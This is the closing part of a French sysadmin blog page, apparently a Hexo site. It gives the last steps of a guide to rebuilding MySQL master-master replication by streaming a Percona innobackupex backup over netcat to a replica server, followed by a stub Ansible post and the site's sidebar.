<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># On effectue le backup</span></span><br><span class="line">innobackupex --defaults-file=/etc/mysql/conf.d/super_custom.cnf --user=root --password=<span class="string">'ChangeMe'</span> --stream=tar ./ |  pigz | nc -q 0 bdd-replica 4242</span><br><span class="line"><span class="comment"># Adaptez le super_custom.cnf a votre conf</span></span><br><span class="line"><span class="comment"># bdd-replica doit exister dans vos /etc/hosts </span></span><br><span class="line"><span class="comment"># sur BDD-01A bdd-replica sera un alias de BDD-01B et vice versa</span></span><br><span class="line"><span class="comment"># Pensez à créer ces alias ;-)</span></span><br></pre></td></tr></table></figure>
<h3 id="Actions-a-effectuer-sur-le-serveur-BDD-01B-le-KO-1"><a href="#Actions-a-effectuer-sur-le-serveur-BDD-01B-le-KO-1" class="headerlink" title="Actions à effectuer sur le serveur BDD-01B (le KO)"></a>Actions à effectuer sur le serveur BDD-01B (le KO)</h3><figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># Application des logs</span></span><br><span class="line">innobackupex --use-memory=1G --apply-log /var/lib/mysql/</span><br><span class="line"><span class="built_in">echo</span> 3 &gt; /proc/sys/vm/drop_caches</span><br></pre></td></tr></table></figure>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># Restart mysql</span></span><br><span class="line">chown -R mysql: /var/lib/mysql</span><br><span class="line">service mysql start</span><br></pre></td></tr></table></figure>
<p>/!\ Si et seulement si on a une erreur de connection du user debian-sys-maint lors du mysql start /!\</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># Fix debian-sys-maint</span></span><br><span class="line">cat /etc/mysql/debian.cnf</span><br><span class="line">SET PASSWORD FOR <span class="string">'debian-sys-maint'</span>@<span class="string">'localhost'</span> = PASSWORD(<span class="string">'ChangeMe'</span>);</span><br></pre></td></tr></table></figure>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># On affiche les informations de la réplication pour la relancer</span></span><br><span class="line">cat /var/lib/mysql/xtrabackup_binlog_info</span><br><span class="line">master-log-bin.000001   36470842</span><br></pre></td></tr></table></figure>
<p>On prends les infos de ce cat et on les reporte dans la commande qui suit :</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># Remise en place de la réplication</span></span><br><span class="line">mysql &gt; change master to master_host=<span class="string">'bdd-replica'</span>, master_port=3306, master_user=<span class="string">'repl_user'</span>, master_password=<span class="string">'ChangeMe'</span>, master_log_file=<span class="string">'master-log-bin.000001'</span>, master_log_pos=36470842;</span><br><span class="line">mysql &gt; start slave;</span><br><span class="line">watch <span class="string">'mysql -e "show slave status\G" | grep Seconds_Behind_Master'</span></span><br></pre></td></tr></table></figure>
<p>On attends que la répli rattrape son retard, quand c’est ok on peut faire la suite</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># Remise en place de la répli master</span></span><br><span class="line">mysql &gt; reset master;</span><br><span class="line">mysql &gt; show master status;</span><br><span class="line">    master-log-bin.000001   42</span><br></pre></td></tr></table></figure>
<h3 id="Actions-a-effectuer-sur-le-serveur-BDD-01A-le-OK-1"><a href="#Actions-a-effectuer-sur-le-serveur-BDD-01A-le-OK-1" class="headerlink" title="Actions à effectuer sur le serveur BDD-01A (le OK)"></a>Actions à effectuer sur le serveur BDD-01A (le OK)</h3><p>On prends les infos du show master status du serveur 01b comme fait précédemment et on les reporte dans la commande qui suit :</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># Remise en place de la répli</span></span><br><span class="line">mysql &gt; change master to master_host=<span class="string">'bdd-replica'</span>, master_port=3306, master_user=<span class="string">'repl_user'</span>, master_password=<span class="string">'ChangeMe'</span>, master_log_file=<span class="string">'master-log-bin.000001'</span>, master_log_pos=42;</span><br><span class="line">mysql &gt; start slave;</span><br><span class="line">mysql &gt; show slave status\G</span><br></pre></td></tr></table></figure>
<p>Enjoy \o/ </p>
<p><a href="https://www.percona.com/doc/percona-xtrabackup/2.3/innobackupex/streaming_backups_innobackupex.html" target="_blank" rel="noopener">Source</a></p>

      
    </div>
    <footer class="article-footer">
      <a data-url="http://91.208.181.214/2020/05/27/replication-master-master/" data-id="clqobt6cl0021w9iyl5wgnxan" class="article-share-link">Partager</a>
      
      
      
  <ul class="article-tag-list"><li class="article-tag-list-item"><a class="article-tag-list-link" href="/tags/mysql/">mysql</a></li></ul>

    </footer>
  </div>
  
</article>


  
    <article id="post-Ansible-quick-start" class="article article-type-post" itemscope="" itemprop="blogPost">
  <div class="article-meta">
    <a href="/2020/05/21/Ansible-quick-start/" class="article-date">
  <time datetime="2020-05-21T18:21:42.000Z" itemprop="datePublished">2020-05-21</time>
</a>
    
  <div class="article-category">
    <a class="article-category-link" href="/categories/Ansible/">Ansible</a>►<a class="article-category-link" href="/categories/Ansible/Quick-Starts/">Quick Starts</a>
  </div>

  </div>
  <div class="article-inner">
    
    
      <header class="article-header">
        
  
    <h1 itemprop="name">
      <a class="article-title" href="/2020/05/21/Ansible-quick-start/">Ansible-quick-start</a>
    </h1>
  

      </header>
    
    <div class="article-entry" itemprop="articleBody">
      
        <p>Petit retour d’expérience conçu pour permettre de démarrer rapidement avec les éléments essentiels d’Ansible.</p>
<p>Work in progress… :watch:</p>

      
    </div>
    <footer class="article-footer">
      <a data-url="http://91.208.181.214/2020/05/21/Ansible-quick-start/" data-id="clqobt68l0000w9iyguz5b687" class="article-share-link">Partager</a>
      
      
      
  <ul class="article-tag-list"><li class="article-tag-list-item"><a class="article-tag-list-link" href="/tags/Ansible/">Ansible</a></li></ul>

    </footer>
  </div>
  
</article>


  


  <nav id="page-nav">
    
    <span class="page-number current">1</span><a class="page-number" href="/page/2/">2</a><a class="page-number" href="/page/3/">3</a><a class="extend next" rel="next" href="/page/2/">Suivant &raquo;</a>
  </nav>

</section>
        
          <aside id="sidebar">
  
    
  <div class="widget-wrap">
    <h3 class="widget-title">Catégories</h3>
    <div class="widget">
      <ul class="category-list"><li class="category-list-item"><a class="category-list-link" href="/categories/AWS/">AWS</a><ul class="category-list-child"><li class="category-list-item"><a class="category-list-link" href="/categories/AWS/AWS-Certified-Solutions-Architect-Associate-SAA-C02/">AWS Certified Solutions Architect Associate SAA-C02</a></li></ul></li><li class="category-list-item"><a class="category-list-link" href="/categories/Ansible/">Ansible</a><ul class="category-list-child"><li class="category-list-item"><a class="category-list-link" href="/categories/Ansible/Quick-Starts/">Quick Starts</a></li></ul></li><li class="category-list-item"><a class="category-list-link" href="/categories/CTF/">CTF</a><ul class="category-list-child"><li class="category-list-item"><a class="category-list-link" href="/categories/CTF/TryHackMe-Anonymous/">TryHackMe Anonymous</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/CTF/TryHackMe-CMesS/">TryHackMe CMesS</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/CTF/TryHackMe-Madness/">TryHackMe Madness</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/CTF/TryHackMe-Wgel/">TryHackMe Wgel</a></li></ul></li><li class="category-list-item"><a class="category-list-link" href="/categories/ElasticSearch/">ElasticSearch</a><ul class="category-list-child"><li class="category-list-item"><a class="category-list-link" href="/categories/ElasticSearch/Playing-with-Elastic-Stack-Modules/">Playing with Elastic Stack Modules</a></li></ul></li><li class="category-list-item"><a class="category-list-link" href="/categories/Git/">Git</a><ul class="category-list-child"><li class="category-list-item"><a class="category-list-link" href="/categories/Git/Source-Control-with-Git/">Source Control with Git</a></li></ul></li><li class="category-list-item"><a class="category-list-link" href="/categories/Hexo/">Hexo</a><ul class="category-list-child"><li class="category-list-item"><a class="category-list-link" href="/categories/Hexo/How-to/">How to</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/Hexo/bye-bye-2023/">bye bye 2023</a></li></ul></li><li class="category-list-item"><a class="category-list-link" href="/categories/MySQL/">MySQL</a><ul class="category-list-child"><li class="category-list-item"><a class="category-list-link" href="/categories/MySQL/Reparation-de-replication-master-master-sans-lock/">Réparation de réplication master/master (sans lock)</a></li></ul></li><li class="category-list-item"><a class="category-list-link" href="/categories/Nginx/">Nginx</a><ul class="category-list-child"><li class="category-list-item"><a class="category-list-link" href="/categories/Nginx/Playing-with-Nginx-and-Dynamic-Modules/">Playing with Nginx and Dynamic Modules</a></li></ul></li><li class="category-list-item"><a class="category-list-link" href="/categories/Sysadmin-Tips-Tricks/">Sysadmin Tips & Tricks</a><ul class="category-list-child"><li class="category-list-item"><a class="category-list-link" href="/categories/Sysadmin-Tips-Tricks/iowait/">iowait</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/Sysadmin-Tips-Tricks/swap/">swap</a></li></ul></li><li class="category-list-item"><a class="category-list-link" href="/categories/Varnish/">Varnish</a><ul class="category-list-child"><li class="category-list-item"><a class="category-list-link" href="/categories/Varnish/blocklist-IP-address-with-Varnish/">blocklist IP address with Varnish</a></li></ul></li><li class="category-list-item"><a class="category-list-link" href="/categories/others/">others</a></li></ul>
    </div>
  </div>


  
    
  <div class="widget-wrap">
    <h3 class="widget-title">Mot-clés</h3>
    <div class="widget">
      <ul class="tag-list"><li class="tag-list-item"><a class="tag-list-link" href="/tags/42/">42</a></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/AWS/">AWS</a></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/Ansible/">Ansible</a></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/Blog/">Blog</a></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/FortyTwo/">FortyTwo</a></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/ModSecurity/">ModSecurity</a></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/Test/">Test</a></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/Univers/">Univers</a></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/elasticsearch/">elasticsearch</a></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/git/">git</a></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/githooks/">githooks</a></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/grep/">grep</a></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/hexo/">hexo</a></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/iotop/">iotop</a></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/iowait/">iowait</a></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/mysql/">mysql</a></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/nginx/">nginx</a></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/sort/">sort</a></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/swap/">swap</a></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/tryhackme/">tryhackme</a></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/varnish/">varnish</a></li><li class="tag-list-item"><a class="tag-list-link" href="/tags/vmstat/">vmstat</a></li></ul>
    </div>
  </div>


  
    
  <div class="widget-wrap">
    <h3 class="widget-title">Nuage de mot-clés</h3>
    <div class="widget tagcloud">
      <a href="/tags/42/" style="font-size: 10px;">42</a> <a href="/tags/AWS/" style="font-size: 10px;">AWS</a> <a href="/tags/Ansible/" style="font-size: 10px;">Ansible</a> <a href="/tags/Blog/" style="font-size: 20px;">Blog</a> <a href="/tags/FortyTwo/" style="font-size: 10px;">FortyTwo</a> <a href="/tags/ModSecurity/" style="font-size: 10px;">ModSecurity</a> <a href="/tags/Test/" style="font-size: 20px;">Test</a> <a href="/tags/Univers/" style="font-size: 10px;">Univers</a> <a href="/tags/elasticsearch/" style="font-size: 10px;">elasticsearch</a> <a href="/tags/git/" style="font-size: 10px;">git</a> <a href="/tags/githooks/" style="font-size: 10px;">githooks</a> <a href="/tags/grep/" style="font-size: 10px;">grep</a> <a href="/tags/hexo/" style="font-size: 10px;">hexo</a> <a href="/tags/iotop/" style="font-size: 10px;">iotop</a> <a href="/tags/iowait/" style="font-size: 10px;">iowait</a> <a href="/tags/mysql/" style="font-size: 10px;">mysql</a> <a href="/tags/nginx/" style="font-size: 10px;">nginx</a> <a href="/tags/sort/" style="font-size: 10px;">sort</a> <a href="/tags/swap/" style="font-size: 10px;">swap</a> <a href="/tags/tryhackme/" style="font-size: 20px;">tryhackme</a> <a href="/tags/varnish/" style="font-size: 10px;">varnish</a> <a href="/tags/vmstat/" style="font-size: 10px;">vmstat</a>
    </div>
  </div>

  
    
  <div class="widget-wrap">
    <h3 class="widget-title">Archives</h3>
    <div class="widget">
      <ul class="archive-list"><li class="archive-list-item"><a class="archive-list-link" href="/archives/2023/12/">décembre 2023</a></li><li class="archive-list-item"><a class="archive-list-link" href="/archives/2022/03/">mars 2022</a></li><li class="archive-list-item"><a class="archive-list-link" href="/archives/2021/11/">novembre 2021</a></li><li class="archive-list-item"><a class="archive-list-link" href="/archives/2020/10/">octobre 2020</a></li><li class="archive-list-item"><a class="archive-list-link" href="/archives/2020/09/">septembre 2020</a></li><li class="archive-list-item"><a class="archive-list-link" href="/archives/2020/07/">juillet 2020</a></li><li class="archive-list-item"><a class="archive-list-link" href="/archives/2020/05/">mai 2020</a></li><li class="archive-list-item"><a class="archive-list-link" href="/archives/2020/04/">avril 2020</a></li><li class="archive-list-item"><a class="archive-list-link" href="/archives/2019/11/">novembre 2019</a></li><li class="archive-list-item"><a class="archive-list-link" href="/archives/2019/10/">octobre 2019</a></li><li class="archive-list-item"><a class="archive-list-link" href="/archives/2018/12/">décembre 2018</a></li><li class="archive-list-item"><a class="archive-list-link" href="/archives/2017/04/">avril 2017</a></li><li class="archive-list-item"><a class="archive-list-link" href="/archives/2017/03/">mars 2017</a></li></ul>
    </div>
  </div>


  
    
  <div class="widget-wrap">
    <h3 class="widget-title">Articles récents</h3>
    <div class="widget">
      <ul>
        
          <li>
            <a href="/2023/12/27/seeyoulater/">seeyoulater</a>
          </li>
        
          <li>
            <a href="/2022/03/06/TryHackMe-Anonymous-Write-Up/">TryHackMe Anonymous Writeup</a>
          </li>
        
          <li>
            <a href="/2021/11/05/TryHackMe-CMesS-CTF-Write-Up/">TryHackMe CMesS CTF Write Up</a>
          </li>
        
          <li>
            <a href="/2020/10/27/TryHackMe-Madness-CTF-Write-Up/">TryHackMe Madness CTF Writeup</a>
          </li>
        
          <li>
            <a href="/2020/09/27/TryHackMe-Wgel-CTF-Write-Up/">TryHackMe Wgel CTF Writeup</a>
          </li>
        
      </ul>
    </div>
  </div>

  
</aside>
        
      </div>
      <footer id="footer">
  
  <div class="outer">
    <div id="footer-info" class="inner">
      &copy; 2023 n3ird4<br>
      Propulsé par <a href="https://hexo.io/" target="_blank">Hexo</a> & <a href="https://github.com/" target="_blank">Github</a>
    </div>
  </div>
</footer>

    </div>
    <nav id="mobile-nav">
  
    <a href="/" class="mobile-nav-link">Home</a>
  
    <a href="/archives" class="mobile-nav-link">Archives</a>
  
</nav>
    

<script src="//ajax.googleapis.com/ajax/libs/jquery/2.0.3/jquery.min.js"></script>


  <link rel="stylesheet" href="/fancybox/jquery.fancybox.css">
  <script src="/fancybox/jquery.fancybox.pack.js"></script>


<script src="/js/script.js"></script>


  </div>
</body>
</html>